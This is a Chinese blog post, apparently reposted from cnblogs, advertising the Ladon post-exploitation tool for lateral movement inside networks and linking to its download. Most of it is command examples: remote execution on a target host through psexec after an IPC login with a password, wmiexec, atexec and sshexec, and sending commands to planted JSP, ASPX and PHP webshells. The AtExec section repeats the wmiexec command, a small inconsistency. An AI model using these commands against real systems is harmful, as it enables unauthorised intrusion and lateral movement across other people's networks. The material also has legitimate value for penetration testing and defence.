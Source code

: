 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/k8gege/p/12993054.html)

### 前言

在内网渗透中，横向移动用的最多的就是远程执行命令了，网上有很多相关工具，系统也自带相关命令。但不是体积大就是命令繁琐，如 schtasks 命令等，执行需先创建任务、执行任务、删除任务等，命令长，输错会浪费很多时间，即使复制粘贴也很麻烦。体积大的如 Impacket 中的 psexec/atexec/smbexec/wmiexec 等，若是使用 PY2.7 编译低版本最小也 5M 左右，最大可能 37.5M，无论是内存加载或是传到目标都很麻烦，如果后渗透工具垃圾，区区这几 M 还未必能传上去，传上去得浪费很多时间。传一个就 5M，传 4 个不得 20M? 基于以上原因，Ladon 添加常用的远程执行命令功能，6.5 体积仅 844K 就包含以上工具功能，扫描到相关密码，即可使用对应模块横向移动，一站式工具，完美一条龙服务。

### Ladon 远程执行命令

#### PSEXEC 交互式回显

需先连接 IPC，然后再通过 psexec 执行命令，类似 psexec 需 445 端口

```
net user \\\\192.168.1.8 k8gege520 /user:k8gege
Ladon psexec 192.168.1.8
psexec> whoami
nt authority\\system
```

![](http://k8gege.org/k8img/Ladon/exe/psexec.PNG)

#### WmiExec 非交互回显

并非所有机器都允许连接 445 端口，所以可通过 135 端口执行命令

```
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami
```

![](http://k8gege.org/k8img/Ladon/exe/wmiexec.PNG)

#### AtExec 非交互回显

通过 sctask 命令执行，可以 SYSTEM 权限或对应用户执行命令，需 445 端口  
但是以用户权限执行命令需要远程机器登陆对应用户

```
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami
```

![](http://k8gege.org/k8img/Ladon/exe/atexec.PNG)

#### SshExec 非交互回显

一般开放 SSH 服务的有 Linux 系统，网络设备等，默认为 22 端口

```
Ladon SshExec 192.168.1.8 k8gege k8gege520 whoami
Ladon SshExec 192.168.1.8 22 k8gege k8gege520 whoami
```

![](http://k8gege.org/k8img/Ladon/exe/sshexec.PNG)

#### JspShell 非交互回显

支持菜刀以及 Ladon 自动 GetShell 时传的 UAshell，详见：[http://k8gege.org/p/ladon\_cs\_shell.html](http://k8gege.org/p/ladon_cs_shell.html)

```
Usage：Ladon JspShell type url pwd cmd
Example: Ladon JspShell ua http://192.168.1.8/shell.jsp Ladon whoami
```

![](http://k8gege.org/k8img/Ladon/exe/JspShellExec.PNG)

#### WebShell 非交互回显

支持 7 种脚本 (jsp asp php aspx cfm py perl)，3 种类型 WebShell(cd ua k8)  
支持菜刀以及 Ladon 自动 GetShell 时传的 UAshell，详见：[http://k8gege.org/p/ladon\_cs\_shell.html](http://k8gege.org/p/ladon_cs_shell.html)

```
Usage：Ladon WebShell ScriptType ShellType url pwd cmd
Example: Ladon WebShell jsp ua http://192.168.1.8/shell.jsp Ladon whoami
Example: Ladon WebShell aspx cd http://192.168.1.8/1.aspx Ladon whoami
Example: Ladon WebShell php ua http://192.168.1.8/1.php Ladon whoami
```

![](http://k8gege.org/k8img/Ladon/exe/WebShell.PNG)

### 工具下载

最新版本：[https://k8gege.org/Download/Ladon.rar](https://k8gege.org/Download/Ladon.rar)  
历史版本: [https://github.com/k8gege/Ladon/releases](https://github.com/k8gege/Ladon/releases)